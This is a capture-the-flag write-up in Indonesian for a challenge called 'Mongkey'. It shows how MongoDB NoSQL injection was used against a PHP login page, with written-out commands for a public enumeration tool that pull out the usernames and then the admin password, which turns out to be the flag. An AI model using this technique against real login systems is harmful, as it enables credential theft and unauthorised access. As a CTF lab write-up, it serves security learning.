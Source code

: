 # Mongkey
## About The Challenge

<img width="364" alt="Cuplikan layar 2023-06-15 131041" src="https://github.com/Gatottri/CTF-ForestyHack_WriteUP/assets/134616676/655bc567-3513-4e6a-90d7-db1b6eeaf865">


Diberikan sebuah website http://103.167.136.89:10002/ dengan tampilan :
![Screenshot from 2023-06-13 23-32-03](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/a9bd5a88-8c40-4c30-a4a3-b1c17b0af079)

# Solutions

Dalam challenge kita diharuskan login sebagai admin untuk mendapati flagnya
Dalam challenge juga saya mendapati petunjuk yaitu "Do you know if it is possible to post an array in PHP? I use MongoDB btw"
saya berpikir bahwa ini merupakan sejenis SQL Injection namun dalam bentu mongodb saya berpikir menggunakan tool NosQLI MongoDB injection
menggunakan tool yang saya dapatkan dari [sini](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)
setelah mendapatkan file toolnya menggunakan git clone

saya memasukkan perintah, untuk mencari username yang terdapat didalam website :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep username -op login:login
```
saya mendapati bahwa username didalam website ini ada dua yaitu :
```shell
2 username(s) found:
admin
guest
```
![Screenshot from 2023-06-14 00-05-58](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/fa9c6d5e-1656-4975-bdcb-0ec26da559a3)

guest bukanlah username untuk medapatkan flagnya maka saya berasumsi bahwa flag terdapat pada user 'admin', mari kita cari passwordnya dengan perintah :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep password -op login:login
```
setelah tool selesai melakukan tugasnya maka mendapati hasil
```shell
2 password(s) found:
guest
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
![Screenshot from 2023-06-14 00-06-26](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/b5f1edc7-4fb2-4a8e-9968-0823d5b7b5c3)

wow ternyata password untuk user admin adalah flag yang kita cari cari

## Flag
**ForestyHC{reject_humanity_return_to_monke_5543d8}**
